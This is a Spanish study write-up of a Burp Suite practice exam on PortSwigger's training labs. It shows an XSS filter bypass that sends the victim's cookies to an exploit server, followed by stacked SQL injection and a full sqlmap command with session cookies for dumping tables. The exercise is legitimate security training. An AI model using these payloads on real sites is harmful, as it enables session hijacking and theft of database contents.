# Examen de prueba de burpsuite

>Importantisimo que cuando abrimos ventana nueva no nos de el problema js... eso es un problema y hay que ver si entramos directamente en el examen desde burpsuite

Este problema puede darnoslo también si cogemos y usamos también windows...

Este examen no te dan ninguna información , únicamente una web que está en 3 pasos

1º Obtener la entrada como un usuario
2º obtener una entrada de administrador
3º obtener una flag

## Analizando la web sin usuario

De momento:
- solo podemos ver entradas
- solo podemos buscar

Dom invader nos detecta un posible ataque



Intentaremos hacer un XSS para robar las cookies XSS GET COOKIES

1. Lo primero es conseguir lanzar un alert en la web. 

Lanzamos un alert y nos aparece como está formada la llamada



Si vemos. Tendríamos que cerrar el search term por completo y luego poner el alert.

cerramos las comillas y llaves y ponemos alert()



Una vez tenemos esto aún no se lanza y es que tenemos todavía un "} final.

Lo que hacemos es comentar el resto con //

Sigue sin funcionar, cerramos con ; detrás de }

Ya si funciona



2. Ahora vamos a intentar hacer un document.cookie en el alert
```html
"};alert(document.cookie);//
```

Nos aparece que es pontencialmente peligoroso utilizar document.cookie


Haciendo diferentes pruebas conseguimos ver que lo que está diciendo que no permite es el punto.
Probamos:
- document solo
- cookie
- document . y da fallo 

> Los objetos en javascript son diccionarios que asignan atributos.
> document.cookie == document['cookie']

```
adfa"};alert(document['cookie']);//
```



Vale ya vemos como poder obtener una cookie en nuestro pc, esto de por si no vale para nada, solo estamos probando que funciona para que cuando le enviemos al usuario victima no de problemas.

¿Cómo hacemos que nos llegue a nosotros la información? Necesitamos que el victima vaya a nuestra web que tenemos monitorizada y le salte el document['cookie']

Sabemos el uso de document.location, por lo que le asignamos nuestra web y el script. Hay que tener en cuenta que el . no deja ponerlo por lo que sería document['location']=nuestrawebdeexploit+document['cookie']

A todo esto hay que dejar como el parámetro que se pueda poner un script por lo que:
Como no funcionan los puntos cambiamos por %2e

Intentamos que nos redirija al servidor de explotación

aa"};document['location']='https://exploit-0a7b009b031d60b5c0bc267901100013%2eweb-security-academy%2enet/exploit' + document['cookie']//

Importante hay que poner el que acepte una q con ?q=

Sino aparece 



aadfaf"};document['location']='https://exploit-0acd00c504354316c08d035a0129005e%2eweb-security-academy%2enet/exploit?q=' + document['cookie']//




Llegado a este paso ya podemos intentar hacer que un usuario nos de su cookie por el servidor de explotacion.

Una vez que vamos al sevidor de explotacion



Botón derecho copiar ulr para que esté la url completa

```html
1. Creamos la base

<script>
location=''
</script>

2. Insertamos la url

https://0a5100e804224326c0f2039300d4003f.web-security-academy.net/search_res?SearchTerm=aadfaf%22%7D%3Bdocument%5B%27location%27%5D%3D%27https%3A%2F%2Fexploit-0acd00c504354316c08d035a0129005e%252eweb-security-academy%252enet%2Fexploit%3Fq%3D%27+%2B+document%5B%27cookie%27%5D%2F%2F

3. Url completa

<script>
location='https://0a5100e804224326c0f2039300d4003f.web-security-academy.net/?SearchTerm=aadfaf%22%7D%3Bdocument%5B%27location%27%5D%3D%27https%3A%2F%2Fexploit-0acd00c504354316c08d035a0129005e%252eweb-security-academy%252enet%2Fexploit%3Fq%3D%27+%2B+document%5B%27cookie%27%5D%2F%2F'
</script>


```


Ya tenemos la cookie, ahora solo nos la ponemos en nuestro explorador y listo.

```
vK585JTUgZOal8Poo7pPA5e1BkcJQsrr
```

Ya estamos dentro.

## Paso 2



1. Al tener varios parámetros vemos que parámetros son atacables

Ataque stack en sus variantes 

; select sleep(5)--d

2. Base de datos?

funciona con ;select pg_sleep(5)-- por lo que es postgree


3. Atacamos poniendo un *donde queremos atacar, en este caso date
- -u "url"
- --cookie="cookie"
- dbms=postgresql
- technique=ES  --> error y stacke. Podría ser union etc
  

```sql
sqlmap -u "https://0a5100e804224326c0f2039300d4003f.web-security-academy.net/filtered_search?SearchTerm=&sort-by=DATE*&writer=" --cookie="_lab=47%7cMC0CFQCVQW%2buyAPkkuR%2bKcQCXypYsIw2SQIUdjeus9BV0mOWwxYoaUkfCN0AxrZ9OIGla08Iokf74UPxWl8imlSBzCKbbNOnbc2V4NY4uDKGAN6pAAY0lTOmA2zmAIzdhko2RbZ8imN0z%2fhaBn5lI7VOgpLot7gDkfM7kWlzrbZwxnlE; session=uDNLBXhY2KxFXwtd3aEQrEp9TCwpR1Ww" technique=E --dbms=postgresql 
```
4. Una vez nos devuelve la base de datos añadimos -D database --tables
5. Una vez que sabemos las tablas devolvemos el resultado --dumps


